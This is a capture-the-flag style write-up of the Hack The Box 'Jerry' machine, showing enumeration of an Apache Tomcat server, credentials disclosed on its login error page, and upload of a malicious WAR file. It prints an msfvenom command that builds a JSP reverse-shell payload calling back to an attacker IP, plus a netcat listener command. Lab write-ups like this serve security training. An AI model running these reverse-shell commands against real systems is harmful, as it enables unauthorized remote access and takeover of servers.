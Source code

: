 [**< back**](/README.md)

# HTB - Jerry

![jerry_banner](/_storage/_img/_pentest_labs/_htb/jerry/jerry_banner.jpg)
**Machine**: Jerry
**Author**: Nika Kharebava

## Information Gathering
### NMap
:mag: Initial enumeration using Nmap  
![initial_nmap_scan](/_storage/_img/_pentest_labs/_htb/jerry/initial_nmap_scan.png)
Seems like this one's serving a Apache Tomcat/7.0.88 on port 8080  

### Messing around
![tomcat_discovered](/_storage/_img/_pentest_labs/_htb/jerry/tomcat_discovered.png)  
If we try to login... this happens...  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/apache_login.png)  
Credentials get disclosed from configuration file  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/creds_disclosed.png)
At first we can not login into the account with these creds, but if we flush cookies then we are greeted with this manager interface  
![apache_login_success](/_storage/_img/_pentest_labs/_htb/jerry/manager_app_successful_login.png)  
Where we can actually upload  
![war_file_upload](/_storage/_img/_pentest_labs/_htb/jerry/war_file_upload.png)  


### Exploitation :microbe: 
We can gain either a web shell or a reverse shell by generating it using venom as a war payload and uploading it into the manager upload page.

**msfvenom**  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=4444 -f war -o shell.war`

Now we can setup a netcat listener on an attacker machine
`nc -nlvp 4444` 
Then we can just upload the war file into manager interface and surf it on the browser...  
`http://10.129.157.182:8080/shell`  
and we have a connection with nt/authority...  
![shell_gained](/_storage/_img/_pentest_labs/_htb/jerry/shell_gained.png)
